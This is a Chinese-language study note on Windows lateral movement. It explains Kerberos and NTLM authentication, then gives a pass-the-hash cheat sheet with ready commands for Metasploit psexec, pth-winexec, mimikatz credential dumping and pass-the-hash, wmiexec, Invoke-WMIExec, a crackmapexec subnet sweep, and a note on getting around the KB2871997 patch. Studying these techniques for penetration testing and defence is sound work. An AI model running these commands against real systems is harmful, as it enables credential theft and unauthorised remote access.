 # windows横向移动学习

## 基础知识

### 本地认证流程

·![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007185004.png)



### kerberos

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007165908.png)

#### 名词解释

```
KDC (Key Distribution Center):密钥分发中心，包含AS和TGS服务
AS (Authentication Server):身份认证服务
TGS(Ticket Granting Server):票据授权服务
TGT(Ticket Granting Ticket)：由身份认证授予的票据，用于身份认证，存储在内存中，默认有效期为10小时
```



#### 认证过程

```
第一:从AS服务器中获取TGT票据
用户在客户端输入账号和密码之后，会对密码进行hash处理，作为user-secret-key
1. 客户端将用户名发送给AS服务器申请服务,在AS服务器中会对用户名进行验证，在AS服务器本地数据库中查询到该用户名的密码，并使用hash生成user-secrect-key.
2. AS服务器向用户发送两样东西：
   1） Client/TGS会话密钥，使用user-secrect-key进行加密
   2） TGT，包含TGS会话密钥，用户信息，时间戳，TGT有效期。使用TGS密钥进行加密
3. 用户接收到消息之后，回使用本地的user-secret-key对消息1)进行解密，如果解密成功，说明用户提供的凭证是正确的,此时用户得到了加密后的TGT。
第二:从TGS服务器中获取访问权限
1. 客户端向TGS服务器发送信息：
   1） 第一步骤中的TGT
   2） 认证信息（认证符(Authenticator)），包含用户id以及时间戳，通过TGS会话密钥进行加密。
2. TGS服务器收到消息之后，会使用TGS密钥对消息1）进行解密,获取到TGS会话密钥，进而对消息2）进行解密，在对用户id以及时间戳进行认证，如果认证成功，向客户端发送消息：
   1） client-server-ticket(包含SS会话密钥，用户名信息以及时间戳)，使用ss密钥进行加密
   2） ss会话密钥使用TGS会话密钥进行加密
3. 客户端收到信息之后会对消息2）进行解密，获得ss会话密钥。
第三：访问服务
1. 客户端向ss服务器发送以下消息：
   1）第二步骤中的client-server-ticket
   2）新的Authenticator，包含用户信息，时间戳。通过SS会话密钥进行加密
2. SS服务器收到消息之后，会使用ss密钥对消息1）进行解密，解密之后使用ss会话密钥对消息2）解密，解密成功之后会得到authenticator，认证之后，发送：
   1）新时间戳，Client发送的时间戳加1，通过ss会话密钥进行加密
3. 客户端收到时间戳之后，解密确认，成功之后发送服务请求
4. ss服务器收到之后提供服务。
```







### 三种hash

#### LM HASH

LAN Manager（LM）哈希是Windows系统所用的第一种密码哈希算法,，用于老版本Windows系统登录认证。在LAN Manager协议中使用，非常容易通过暴力破解获取明文凭据。但是在Windows Vista和Windows 7系统之后，这种哈希算法是默认关闭。

#### NTML



NTML 是用于 Windows NT 和 Windows 2000 Server 工作组环境的身份验证协议,主要用于Windows Vista及其之后的系统。它还用在必须对 Windows NT 系统进行身份验证的混合 Windows 2000 Active Directory 域环境中。这类Hash可以直接用于PtH，并且通常存在于lsass进程中，便于SSP使用。**获取后可直接用于Hash传递攻击**

Windows系统下hash密码格式 用户名称:RID:LM-HASH值:NT-HASH值，

可以用LM-HASH值:NT-HASH值去在线查询http://www.objectif-securite.ch/en/ophcrack.php或者使用GetHashes、Ophcrack破解系统Hash密码生成过程

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007184802.png)



#### NET-NTML HASH

NET-NTLM HASH是指网络环境下NTLM认证中的hash，有两种一种是Net-NTLMv1另一种是Net-NTLMv2。

Net-NTLMv1 相对脆弱，自Windows Vista/Server2008开始，系统默认禁用Net-NTLMv1，使用Net-NTLMv2。

虽然不能直接用与hash传递攻击，但是可以**通过smb中继来利用**



## PTH(PASS THE HASH，哈希传递攻击)



适用于

```
域/工作组环境
可以获得hash,但是条件不允许对hash爆破
内网中存在和当前机器相同的密码
```



### metepreter

```
use exploit/windows/smb/psexec_psh
set smbdomain xx.int
Set SMBuser admin
set SMBPass 01FC5A6BE7BC6929AAD3BXXX:0CB6948805F7XXXXX807973B89537
```





### pth-exec



```
pth-winexec -U pentestlab/administrator%eb9e3066e4d25b5025ad3b83fa6627c7:03bebb338e70244589ea67c7439c77ba //1.1.1.21 cmd.exe
```



### mimikatz

先抓密码取得NTMLhash，mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。

```
privilege::debug
sekurlsa::logonpasswords

mimikatz # sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /ntlm:11ec7935618f326490509a0703fbadb8
```



#### aes key 远程连接

前提：安装kb2871997

获取aes key

```
privilege::debug
sekurlsa::ekeys
```



pth

```
privilege::debug 
sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c

dir \\WIN-8VVLRPIAJB0\c$
```



### wmiexec

wmi是从windows从03/xp开始win内置的插件，是为了管理员能更加方便的对远程windows主机进行各种日常管理。

win版：https://github.com/maaaaz/impacket-examples-windows

python版：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 域名/用户名@192.168.1.1 "whoami"
```



### Invoke-TheHash

https://github.com/Kevin-Robertson/Invoke-TheHash

```
Invoke-WMIExec -Target 1.1.1.22 -Domain pentestlab -Username administrator -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "command or launcher to execute" -verbose

```



### crackmapexec

这个工具可以对C段进行批量尝试pth，可以先ew代理到kali

https://github.com/byt3bl33d3r/CrackMapExec.git

```
crackmapexec 1.1.1.0/24 -u administrator -H 11ec7935618f326490509a0703fbzdb8
```

### bypass

#### KB2871997

微软再2014年5月13日发布了针对Hash传递的补丁KB2871997，更新用于禁止本地管理员用于远程连接，这样本地管理员无法以本地管理员权限在远程主机上之洗礼wmi,psexec等。然而在实际的测试中发现常规的Hash传递虽已无法成功，但默认administrator(sid500) 账号除外，即使改名，这个账号仍然可以进行Hash传递攻击。
